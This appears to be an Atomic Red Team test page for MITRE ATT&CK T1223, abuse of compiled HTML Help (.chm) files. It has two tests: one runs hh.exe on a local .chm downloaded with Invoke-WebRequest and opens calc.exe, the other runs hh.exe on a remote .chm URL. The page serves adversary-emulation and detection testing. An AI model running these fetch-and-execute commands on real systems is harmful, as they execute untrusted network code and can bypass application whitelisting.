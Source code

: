 # T1223 - Compiled HTML File
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)

Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by [User Execution](https://attack.mitre.org/techniques/T1204). CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.
Upon execution calc.exe will open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| local_chm_file | Local .chm payload | path | PathToAtomicsFolder&#92;T1223&#92;src&#92;T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{local_chm_file}
```




#### Dependencies:  Run with `powershell`!
##### Description: The payload must exist on disk at specified location (#{local_chm_file})
##### Check Prereq Commands:
```powershell
if (Test-Path #{local_chm_file}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{local_chm_file}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1223/src/T1223.chm" -OutFile "#{local_chm_file}"
```




<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.
Upon execution displays an error saying the file cannot be open

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/emrahkaya/atomic-red-team/feature/v6/atomics/T1223/src/T1223.chm|


#### Attack Commands: Run with `command_prompt`! 


```cmd
hh.exe #{remote_chm_file}
```






<br/>
